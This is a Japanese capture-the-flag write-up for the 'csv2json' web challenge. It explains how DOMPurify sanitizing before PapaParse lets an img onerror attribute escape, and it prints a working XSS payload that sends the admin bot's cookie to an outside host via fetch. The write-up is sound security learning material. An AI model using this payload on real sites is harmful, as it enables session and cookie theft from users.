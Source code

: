# csv2json:Web:100pts
alpaca, bongo, capybara  

[csv2json.tar.gz](csv2json.tar.gz)  

Challenge: [http://34.170.146.252:6716](http://34.170.146.252:6716), Admin bot: [http://34.170.146.252:30845](http://34.170.146.252:30845)  

# Solution
ソースファイルとURLが渡される。  
Botがあるため、XS系の問題とわかる。  
サイトにアクセスすると、csvをjsonにしてくれるサービスのようだ。  
![site.png](site/site.png)  
ページのソースを表示すると以下の通りであった。  
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <title>csv2json</title>
        <script src="https://cdn.jsdelivr.net/npm/dompurify@3.2.4/dist/purify.min.js"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/PapaParse/5.4.1/papaparse.min.js"></script>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/water.css@2/out/light.min.css" />
    </head>
    <body>
        <h1>csv2json</h1>
        <form action="/" method="GET">
            <textarea name="csv" placeholder="alpaca, bongo, capybara"></textarea>
            <input type="submit" value="Convert" />
        </form>
        <pre id="result" style="background-color: whitesmoke; padding: 1em"></pre>
        <script>
            const params = new URLSearchParams(location.search);
            if (params.get("csv")?.length > 0)
                result.innerHTML = JSON.stringify(Papa.parse(DOMPurify.sanitize(params.get("csv"))).data);
        </script>
    </body>
</html>
```
クエリ`csv`を`DOMPurify.sanitize`で無害化したのち、`Papa.parse`でcsvにパースして`JSON.stringify`している。  
無害化の後に変更が加わっているためXSSが起こせそうだ。  
試しに`<img src="1" onerror="alert(1)">`を送信すると`[["<img src=\\"1\\">"]]`となり、HTMLでは`<img src="\&quot;1\&quot;">`となった。  
タグを少し壊し`<img src="1 onerror=alert(1)">`としてみると`[["<img src=\\"1 onerror=alert(1)\\">"]]`となり、HTMLでは`<img src="\&quot;1" onerror="alert(1)\&quot;">`となる。  
なんと属性値だった`onerror`が外に出てきてしまっている。  
`\&quot;`によりalertしないため、うまく動くように末尾を`//`で終わらせてやればよい。  
XSSが達成できたため、次にフラグの場所を確認する。  
Botのソースファイル中に以下の記述がみられる。  
```js
~~~
  try {
    const page = await context.newPage();
    await page.setCookie({
      name: "FLAG",
      value: FLAG,
      domain: APP_HOST,
      path: "/",
    });
    await page.goto(url, { timeout: 3_000 });
    await sleep(5_000);
    await page.close();
  } catch (e) {
    console.error(e);
  }
~~~
```
Cookieにあるようなので`<img src="1 onerror=fetch('//s4t.pw?s='+document.cookie)//">`のように持ち出してやればよい。  
Botにクエリを報告すると、以下のリクエストが自身のサーバへ到達した。  
```
GET
/?s=FLAG=Alpaca{p4p4_s3mpl1c1t4}
```
flagが得られた。  

## Alpaca{p4p4_s3mpl1c1t4}